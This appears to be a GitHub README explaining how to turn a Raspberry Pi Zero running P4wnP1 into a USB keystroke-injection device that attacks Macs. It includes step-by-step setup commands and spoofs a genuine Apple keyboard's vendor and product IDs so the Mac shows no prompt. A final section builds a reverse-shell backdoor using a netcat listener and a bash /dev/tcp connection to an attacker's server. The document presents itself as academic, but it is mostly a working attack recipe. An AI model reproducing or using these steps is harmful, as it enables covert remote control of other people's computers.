 # Ducky Raspberry Pi Zero for Mac

There are some threads about P4wnP1 ducky not running on Mac but here is an introduction about setting up P4wnP1 so your pi zero can attack Mac.

## Requirements

1. Raspberry Pi Zero
2. 8G+ Micro SD card
3. USB Cable \(A-Male to Micro B\)

## Setup

1. Download Raspbian Stretch Lite [image](https://www.raspberrypi.org/downloads/raspbian/).
2. Install image on micro SD card with [Etcher](https://www.balena.io/etcher/).
3. Boot your pi and login with default username and password.
```
username: pi
password: raspberry
```
4. (Optional) Change default password for a better security.
5. Connect to network using Wi-Fi or ethernet (Adapter needed).
```shell
sudo raspi-config
```
6. Download P4wnP1 package and install it. \(If newer version is not working, I have an archived version in this repository that worked when I wrote this documentation.\)
```shell
git clone --recursive https://github.com/mame82/P4wnP1
cd P4wnP1/
./install.sh
```
7. (Important) Change scripts so it will run on Mac. This is a temporarily (03/25/19) workaround solution. "open('/dev/hidg0','rb')" is not working on Mac currently so add a timeout to line 200 in P4wnP1/boot/boot_P4wnP1.
```shell
timeout 1 python -c "with open('/dev/hidg0','rb') as f:  print ord(f.read(1))"
```
8. (Important) Use Vendor ID and Product ID from a real Apple keyboard in your payload so Mac won't be asking you to setup an unknown keyboard. See example [here](./payloads/hid_keyboard_hello_world.txt).
```
USB_VID="0x05ac"  # Vendor ID
USB_PID="0x027b"  # Product ID
```
9. Put your payload into P4wnP1/payloads/ on your pi zero. Load the payload in "P4wnP1/setup.cfg".
```
PAYLOAD=hid_keyboard_hello_world.txt  # Add to the end of the file
```
10. Shutdown the pi zero and plug it into a Mac with USB cable mentioned [above](#requirements). Use peripheral micro USB port, not the power port. No power needed here, pi zero takes power from target machine.
```shell
sudo shutdown -h now
```
11. If you want to edit the payload later, plug the pi zero into your machine, connect to Wi-Fi "P4wnP1" with password "MaMe82-P4wnP1", and ssh to it.
```shell
ssh pi@172.16.0.1
```

## Create a Reverse Shell Backdoor

1. Host Netcat server on your machine.
```shell
nc -l -p 8080 -vvv
```
2. Create a descriptor on target machine. Make sure to change the IP address to your server. Your server must be in the same network as target unless you have a public IP that can be accessed by target machine everywhere. \(Run the descriptor in background is recommended.\)
```shell
exec 5<>/dev/tcp/YOUR_SERVER_IP/8080
cat <&5 | while read line; do $line 2>&5 >&5; done
```
3. On your server, when you see a connection being created, you then have bash access to the target machine. You would be able to see the output of bash directly on your machine with the setup above.

## Author

**[Brian Sung](https://github.com/ohbriansung)** 

## Disclaimer

This repository is for academic purposes, the use of this software is your responsibility.

## References

0. [Raspbian](https://www.raspberrypi.org/downloads/raspbian/)
1. [Ducky Script](https://github.com/hak5darren/USB-Rubber-…)
2. [P4wnP1](https://github.com/mame82/P4wnP1/)
3. [Reverse Shell with Bash](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)